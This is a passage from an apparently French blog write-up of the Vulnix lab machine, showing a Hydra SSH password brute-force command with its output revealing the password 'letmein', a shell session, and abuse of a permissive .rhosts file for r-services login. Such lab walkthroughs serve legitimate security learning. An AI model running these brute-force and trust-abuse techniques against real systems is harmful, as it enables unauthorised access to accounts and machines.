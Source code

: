 Ajouté à ça l'utilisateur *"user"* a un mot de passe facilement cassable.  

Ici j'ai utilisé *Hydra* avec une wordlist pompée [chez SkullSecurity](https://wiki.skullsecurity.org/Passwords) contenant les mots de passe les plus fréquents (dans l'ordre !)  

```plain
$ ./hydra -l user -P phpbb.txt  -e nsr ssh://192.168.1.54
Hydra v8.0 (c) 2014 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2014-07-03 19:07:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 184392 login tries (l:1/p:184392), ~720 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 192.168.1.54   login: user   password: letmein
[STATUS] attack finished for 192.168.1.54 (waiting for children to finish) ...
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2014-07-03 19:07:33
```

Une fois connecté avec SSH :  

```plain
user@vulnix:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),100(users)
user@vulnix:~$ ls -al
total 28
drwxr-x--- 3 user user 4096 Sep  2  2012 .
drwxr-xr-x 4 root root 4096 Sep  2  2012 ..
-rw-r--r-- 1 user user  220 Sep  2  2012 .bash_logout
-rw-r--r-- 1 user user 3486 Sep  2  2012 .bashrc
drwx------ 2 user user 4096 Sep  2  2012 .cache
-rw-r--r-- 1 user user  675 Sep  2  2012 .profile
-rw------- 1 user user    7 Sep  2  2012 .rhosts
user@vulnix:~$ cat .rhosts 
+ user
```

Ajouté à ça, on peut se connecter en tant que *user* via les r\* services grâce au fichier *.rhosts* ! Il suffit de disposer d'un compte *user* sur la machine attaquante.  

Il manquait plus que du *NIS* et la boucle était bouclé. *NIS* ? ... Non, laissez tomber !  

Un challenge sympathique mais c'est dommage de ne pas avoir pu le terminer.

*Published July 04 2014 at 22 26*